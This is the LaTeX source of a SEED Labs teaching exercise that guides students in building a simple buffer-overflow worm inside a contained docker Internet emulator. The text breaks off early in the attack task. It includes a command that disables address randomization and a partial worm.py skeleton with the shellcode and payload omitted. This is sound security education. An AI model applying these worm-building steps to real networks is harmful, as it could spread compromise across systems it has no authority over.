%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\newcommand{\commonfolder}{../../common-files}

\documentclass[11pt]{article}

\usepackage[most]{tcolorbox}
\usepackage{times}
\usepackage{epsf}
\usepackage{epsfig}
\usepackage{amsmath, alltt, amssymb, xspace}
\usepackage{wrapfig}
\usepackage{fancyhdr}
\usepackage{url}
\usepackage{verbatim}
\usepackage{fancyvrb}
\usepackage{adjustbox}
\usepackage{listings}
\usepackage{color}
\usepackage{subfigure}
\usepackage{cite}
\usepackage{sidecap}
\usepackage{pifont}
\usepackage{mdframed}
\usepackage{textcomp}
\usepackage{enumitem}
\usepackage{hyperref}


% Horizontal alignment
\topmargin      -0.50in  % distance to headers
\oddsidemargin  0.0in
\evensidemargin 0.0in
\textwidth      6.5in
\textheight     8.9in 

\newcommand{\todo}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{TODO: #1}}
\vspace{0.1in}
}


\newcommand{\unix}{{\tt Unix}\xspace}
\newcommand{\linux}{{\tt Linux}\xspace}
\newcommand{\minix}{{\tt Minix}\xspace}
\newcommand{\ubuntu}{{\tt Ubuntu}\xspace}
\newcommand{\setuid}{{\tt Set-UID}\xspace}
\newcommand{\openssl} {\texttt{openssl}}

% Arrows
\newcommand{\pointleft}[1]{\reflectbox{\ding{217}} \textbf{\texttt{#1}}}
\newcommand{\pointright}[1]{\ding{217} \textbf{\texttt{#1}}}
\newcommand{\pointupleft}[1]{\reflectbox{\ding{218}} \textbf{\texttt{#1}}}

% Line numbers
\newcommand{\lineone}{\ding{192}\xspace}
\newcommand{\linetwo}{\ding{193}\xspace}
\newcommand{\linethree}{\ding{194}\xspace}
\newcommand{\linefour}{\ding{195}\xspace}
\newcommand{\linefive}{\ding{196}\xspace}
\newcommand{\linesix}{\ding{197}\xspace}
\newcommand{\lineseven}{\ding{198}\xspace}
\newcommand{\lineeight}{\ding{199}\xspace}
\newcommand{\linenine}{\ding{200}\xspace}


% Fancy headers
\pagestyle{fancy}
\lhead{\bfseries SEED Labs}
\chead{}
\rhead{\small \thepage}
\lfoot{}
\cfoot{}
\rfoot{}


\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\definecolor{lightgray}{gray}{0.90}


\lstset{%
  frame=none,
  language=,
  backgroundcolor=\color{lightgray},
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
%  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3,
  columns=fullflexible,
  keepspaces=true,
  escapeinside={(*@}{@*)}
}

\newcommand{\newnote}[1]{
\vspace{0.1in}
\noindent
\fbox{\parbox{1.0\textwidth}{\textbf{Note:} #1}}
%\vspace{0.1in}
}


%% Submission
\newcommand{\seedsubmission}{You need to submit a detailed lab report, with screenshots,
to describe what you have done and what you have observed.
You also need to provide explanation
to the observations that are interesting or surprising.
Please also list the important code snippets followed by
explanation. Simply attaching code without any explanation will not
receive credits.}

%% Book
\newcommand{\seedbook}{\textit{Computer \& Internet Security: A Hands-on Approach}, 2nd
Edition, by Wenliang Du. See details at \url{https://www.handsonsecurity.net}.\xspace}

\newcommand{\seedisbook}{\textit{Internet Security: A Hands-on Approach}, 3rd
Edition, by Wenliang Du. See details at \url{https://www.handsonsecurity.net}.\xspace}

\newcommand{\seedcsbook}{\textit{Computer Security: A Hands-on Approach}, 3rd
Edition, by Wenliang Du. See details at \url{https://www.handsonsecurity.net}.\xspace}

\newcommand{\seedcibook}{\textit{Computer \& Internet Security: A Hands-on Approach}, 3rd
Edition, by Wenliang Du. See details at \url{https://www.handsonsecurity.net}.\xspace}

%% Videos
\newcommand{\seedisvideo}{\textit{Internet Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.\xspace}

\newcommand{\seedcsvideo}{\textit{Computer Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.\xspace}

%% Lab Environment
\newcommand{\seedenvironment}{This lab has been tested on our pre-built
Ubuntu 16.04 VM, which can be downloaded from the SEED website.\xspace}

\newcommand{\seedenvironmentA}{This lab has been tested on our pre-built
Ubuntu 16.04 VM, which can be downloaded from the SEED website.\xspace}

\newcommand{\seedenvironmentB}{This lab has been tested on our pre-built
Ubuntu 20.04 VM, which can be downloaded from the SEED website.\xspace}

\newcommand{\seedenvironmentC}{This lab has been tested on the SEED
Ubuntu 20.04 VM. You can download a pre-built image from the SEED website, 
and run the SEED VM on your own computer. However,
most of the SEED labs can be conducted on the cloud, and 
you can follow our instruction to create a SEED VM on the cloud.\xspace}

\newcommand{\seedenvironmentAB}{This lab has been tested on our pre-built
Ubuntu 16.04 and 20.04 VMs, which can be downloaded from the SEED website.\xspace}

\newcommand{\nodependency}{Since we use containers to set up the lab environment, 
this lab does not depend much on the SEED VM. You can do this lab
using other VMs, physical machines, or VMs on the cloud.\xspace}

\newcommand{\adddns}{You do need to add the required IP address mapping to
the \texttt{/etc/hosts} file.\xspace}






\newcommand{\seedlabcopyright}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ {#1}\ \ by Wenliang Du.\\
      This work is licensed under a Creative Commons
      Attribution-NonCommercial-ShareAlike 4.0 International License.
      If you remix, transform, or build upon the material, 
      this copyright notice must be left intact, or reproduced in a way that is reasonable to
      the medium in which the work is being re-published.}}
\vspace{0.1in}
}




\hypersetup{%
    pdfborder = {0 0 0}
}

\lhead{\bfseries SEED Labs -- Morris Worm Attack}
\newcommand{\wormFigs}{./Figs}


\usepackage{hyperref}

\begin{document}


\begin{center}
{\LARGE Morris Worm Attack Lab}
\end{center}

\seedlabcopyright{2021}



% *******************************************
% SECTION
% ******************************************* 
\section{Overview}

The Morris worm (November 1988) was one of the oldest computer worms
distributed via the Internet, and the first to gain significant 
mainstream media attention~\cite{wiki:worm}. 
While it is old, the techniques
used by most worms today are still the same, such as 
the WannaCry ransomware in 2017. 
They involve two main 
parts: attack and self-duplication. The attack part exploits 
a vulnerability (or a few of them), so a worm can get entry
to another computer.
The self-duplication part
is to send a copy of itself to the compromised machine,
and then launch the attack from there.
A detailed analysis of the Morris worm was given by Spafford~\cite{spafford:worm}.

The goal of this lab is 
to help students gain a better understanding of the behavior of worms,
by writing a simple worm and testing it in a contained environment (an Internet emulator).
Although the title of this lab is called Morris worm,
the underneath technique used is quite generic. 
We have broken down the technique into several tasks, so students
can build the worm incrementally. For testing, we built two
emulated Internets, a small one and a larger one. Students can release
their worms in each of these Internets, and see how their worms 
spread across the entire emulated Internet. 
The lab covers the following topics:


\begin{itemize}[noitemsep]
\item Buffer-overflow attack
\item Worm's self-duplication and propagation behavior
\item The SEED Internet emulator 
\item Network tools 
\end{itemize}


\paragraph{Prerequisite.} 
There are several parts in this lab, including attacking, self duplication, and 
propagation. The attacking part exploits the buffer-overflow vulnerability
of a server program. This vulnerable server is the same as 
the one used in the Level-1 task of the buffer-overflow attack 
lab (the server version). We suggest that students 
work on the buffer-overflow lab first before working on this lab,
so they can focus on the worm part in this lab.


\paragraph{Lab environment.} 
\seedenvironmentB
\nodependency


% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\section{The Lab Setup and the SEED Internet Emulator}
\label{sec:emulator}

This lab will be performed inside the SEED Internet Emulator (simply
called the emulator in this document). If this is the first time you
use the emulator, it is important that you read this section. 
We recommend instructors to provide a lab session to 
help students get familiar with the emulator.  


% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{The Internet Emulator} 

We provide a pre-built emulator in two different forms: Python code
and container files. The container files are generated from
the Python code, but students need to install the SEED Emulator source
code from the GitHub to run the Python code. The container files
can be directly used without the emulator source code.
Instructors who would like to customize the emulator can modify the Python
code, generate their own container files, and then provide the
files to students, replacing the ones included in the
lab setup file. See the \texttt{README.md} file for instructions. 


\paragraph{Download the emulator files.}
Please download the \texttt{Labsetup.zip} file from the web page, and
unzip it. The files inside the container folder are the actual 
emulation files (container files); they are generated by the Python code.
The name of the container folder is called \texttt{output/} for most labs,
but if a lab has multiple emulators, it will use 
different folder names. The actual names will be given in the lab task.


\paragraph{Start the emulation.}
We will directly use the files in the container folder.
Go to this folder, and run the docker commands
to build and start the containers. We recommend that you run the emulator inside
the provided SEED Ubuntu 20.04 VM, but doing it in a generic Ubuntu 20.04 operating system
should not have any problem, as long as the docker software is installed.
Readers can find the docker manual from
\href{https://github.com/seed-labs/seed-labs/blob/master/manuals/docker/SEEDManual-Container.md}
{\underline{this link}}.
If this is the first time you set up a SEED lab environment
using containers, it is very important that you read 
the user manual. 


In the following, we list some of the commonly
used commands related to Docker and Compose. 
Since we are going to use 
these commands very frequently, we have created aliases for them
in the \texttt{.bashrc} file (in our provided SEEDUbuntu 20.04 VM).

\begin{lstlisting}
$ docker-compose build  # Build the container images
$ docker-compose up     # Start the containers
$ docker-compose down   # Shut don the containers


// Aliases for the Compose commands above
$ dcbuild       # Alias for: docker-compose build
$ dcup          # Alias for: docker-compose up
$ dcdown        # Alias for: docker-compose down
\end{lstlisting}


All the containers will be running in the background. To run
commands on a container, we often need to get a shell on
that container. We first need to use the \texttt{"docker ps"}  
command to find out the ID of the container, and then
use \texttt{"docker exec"} to start a shell on that 
container. We have created aliases for them in
the \texttt{.bashrc} file.

\begin{lstlisting}
$ dockps        // Alias for: docker ps --format "{{.ID}}  {{.Names}}" 
$ docksh <id>   // Alias for: docker exec -it <id> /bin/bash

// The following example shows how to get a shell inside hostC
$ dockps
b1004832e275  hostA-10.9.0.5
0af4ea7a3e2e  hostB-10.9.0.6
9652715c8e0a  hostC-10.9.0.7

$ docksh 96
root@9652715c8e0a:/#  

// Note: If a docker command requires a container ID, you do not need to 
//       type the entire ID string. Typing the first few characters will 
//       be sufficient, as long as they are unique among all the containers. 
\end{lstlisting}


If you encounter problems when setting up the lab environment, 
please read the ``Common Problems'' section of the manual
for potential solutions.



\paragraph{Set the terminal title.} 
We may need to get into several containers using the terminal.
We will likely create several terminal tabs, and switch back
and forth among these tabs. We can easily get lost, because
it is difficult to know which tab runs which container. 
To solve this problem, once we
are inside a container, we can set the terminal title using
one of the following commands (it sets the title to \texttt{"New Title"}).

\begin{lstlisting}
# set_title New Title
# st New Title       (*@\pointleft{st} is an alias of set\_title@*)
\end{lstlisting}





% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{The Map of the Emulated Internet} 



% The actual figure file is inside common-files/Figs/. Therefore, 
% when this file is inclucded in another tex file located in folder A, 
% a symbolic link should be created inside A/Figs to link the filename
% to the actual figure file inside the common-files/Figs/ folder.
\begin{figure}[htb]
  \begin{center}
    
\includegraphics[width=0.95\textwidth]{./Figs/emulator_gui.pdf}
  \end{center}
  \caption{The map of the emulated Internet}
  \label{emulator:fig:emulator-gui}
\end{figure}


Each computer (hosts or routers) running inside the emulator is a docker container.
Users can access these computers using docker commands, such as getting a shell
inside a container.
The emulator also comes with a web application, which visualizes all the hosts, routers,
and networks.
After the emulator starts, the map can be accessed from this
URL: \url{http://localhost:8080/map.html}.
See Figure~\ref{emulator:fig:emulator-gui}.
To zoom in/out, use the mouse middle scroll. 
Click on any node, the detailed information of that node
will be displayed on the side panel, from where,
users can get a console on that node (container). 






\paragraph{Note:} At this point, we are still actively improving
the Map application, so the map container is not included 
in the internet emulator folder. Instead, it is included 
in a separate folder, the \texttt{Labsetup/map} folder. 
Please go to this folder, run \texttt{dcbuild} and \texttt{dcup}
to build and start the Map container. Then you can access the Map
using the URL mentioned above. 

% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Filtering and Replying} 



% The actual figure file is inside common-files/Figs/. Therefore, 
% when this file is inclucded in another tex file located in folder A, 
% a symbolic link should be created inside A/Figs to link the filename
% to the actual figure file inside the common-files/Figs/ folder.
\begin{figure}[htb]
  \begin{center}
        
\includegraphics[width=0.6\textwidth]{./Figs/emulator_filter_replay.pdf}
  \end{center}
  \caption{Capturing and replaying events}
  \label{emulator:fig:replay-event}
\end{figure}

Users can also set filters to visualize network traffic.
The syntax of the filter is the same as that in \texttt{tcpdump}; actually,
the filter is directly fed into the \texttt{tcpdump} program running on all nodes.
When a node sees the packets that satisfy the filter, it 
sends an event to the map, which will highlight the node briefly on
the map. 

Sometimes, a sequence of events happen too fast to see the actual order 
among them. In this case, we can use the Replay panel (see 
Figure~\ref{emulator:fig:replay-event}) to record the events and then
replay them at a slower pace. The speed of replaying can be 
adjusted by changing the event interval.







% *******************************************
% SECTION
% *******************************************
\section{Task 1: Get Familiar with the Lab Setup } 

We provide two setups for this lab, 
one with 275 containers (called mini internet)
and the other with 15 containers (called nano internet).
The larger one is used for the final task (Task 6). For 
all others, we will use the smaller one, as it is much
quicker to set up. When everything works, we will
switch to the mini internet setup. In this task, we will
only start the nano internet. Instructions on how to 
start the mini internet will be given in Task 6.


The nano internet has three autonomous systems (ASes), 
which peer with one another at a single Internet exchange.
Each AS has one internal network, and 
its network prefix is \texttt{10.X.0.0/24}, 
where \texttt{X} is \texttt{151}, \texttt{152}, 
and \texttt{153}.  
Each network has five hosts, with the host IDs ranging from
\texttt{71} to \texttt{75}. 


\begin{figure}[htb]
  \begin{center}
    
\includegraphics[width=0.8\textwidth]{\wormFigs/nano-internet.jpg}
  \end{center}
  \caption{The nano internet}
  \label{fig:nano-internet}
\end{figure}
 

Go to the \texttt{Labsetup/internet-nano} folder, 
follow the instruction in Section~\ref{sec:emulator} to 
start the containers (i.e. use \texttt{dcbuild} to build and 
\texttt{dcup} to start). This will start the nano internet
emulator. We have also implemented a visualization tool
to help visualize the networks in the emulator. The tool
is installed in a separate container inside the 
\texttt{Labsetup/map} folder.  
Go to this folder, run \texttt{dcbuild} and \texttt{dcup}
to bring it up.
Once the emulator and the Map have been started, 
point the browser to \url{http://localhost:8080/map.html}, and 
you can see the network diagram (see Figure~\ref{fig:nano-internet}). 

Get a terminal on one of the host containers, 
type \texttt{"ping 1.2.3.4"} on the container, 
and then type \texttt{"icmp and dst 1.2.3.4"} in the 
filter box of the Map (without the quotations; 
do not forget to press return). 
The machine running the \texttt{ping} command will flash.  
We will use this mechanism to visualize which hosts
are infected by the worm: once a host is infected, we run
\texttt{"ping 1.2.3.4"}, so the node corresponding to the 
host can flash on the map. 



% *******************************************
% SECTION
% *******************************************
\section{Task 2: Attack the First Target} 


In this task, we focus on the attacking part of the worm. 
The Morris worm exploited several vulnerabilities to gain entry to targeted systems, 
including a buffer-overflow vulnerability in the \texttt{fingerd} 
network service, a hole in the debug mode of the 
Unix \texttt{sendmail} program, and the transitive trust established 
by users for the remote shell~\cite{wiki:worm,spafford:worm}.
For the sake of simplicity, we will only exploit the 
buffer-overflow vulnerability. 

We have installed a vulnerable server on all the containers, and they
all have a buffer-overflow vulnerability. 
The goal of this task is to exploit this vulnerability, 
so we can run our malicious code on the server. 
The attack part is the same as the Level-1 task in the 
Buffer-Overflow Lab, so if students have worked on that lab before, they can
reuse the code from that lab here. 
We will not duplicate the instruction in this lab. Students can read
the lab description of the Buffer-Overflow Lab (server version) to 
learn the setup of the server and the guidelines on the attack. 


First, we need to turn off the address randomization. This kernel parameter
is global, so once we turn it off from the host machine, all the containers
are affected. 

\begin{lstlisting}
$ sudo /sbin/sysctl -w kernel.randomize_va_space=0
\end{lstlisting}

All the non-router containers in the emulator run the same vulnerable server. 
With the address randomization disabled, 
all the servers will have the identical parameters, the addresses 
of the buffer and the value of the frame pointers will be the same
across all the containers. This makes attack easier. 
The simplification is made because the 
focus of this lab is on the worm crawling part, instead of on the attack 
part. The attack part is the main focus of the Buffer-Overflow 
Attack Lab.
 


% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{The Skeleton Code} 

We provide a skeleton code in the \texttt{Labsetup/worm} 
folder. We will complete this code gradually, one thing 
at a time in each task. In this task, we focus 
on completing the \texttt{createBadfile()} function, 
which is to generate the malicious payload for the 
buffer-overflow attack. 
We will launch this attack against our first target.
We can choose any host as our first target. In the code, we have hard-coded
the target \texttt{10.151.0.71} (Line~\lineone). Students
should feel free to change it. In a later task, 
we will generate the target IP address, instead of 
hard-coding one. 

To help visualize the attack, we let the worm
run a ping command in the background once it successfully gets into a 
victim host (see Line~\linetwo).
This command sends out an ICMP echo message to 
a non-existing machine every 2 seconds. Our Map application
will flash the node after seeing its ICMP messages. 
That is just one way to visualize the compromised hosts.

\begin{lstlisting}[caption={The attack code: \texttt{worm.py}}, language=Python] 
shellcode= (
   ... code omitted (will be discussed later) ...
).encode('latin-1')


# Find the next victim (return an IP address)
def getNextTarget():
    return '10.151.0.71'                                     (*@\lineone@*) 

# Create the badfile (the malicious payload)
def createBadfile():
    ... code omitted (will be discussed later) ...


############################################################
print("The worm has arrived on this host ^_^", flush=True)

# Run the ping program in the background 
subprocess.Popen(["ping -q -i2 1.2.3.4"], shell=True)        (*@\linetwo@*) 

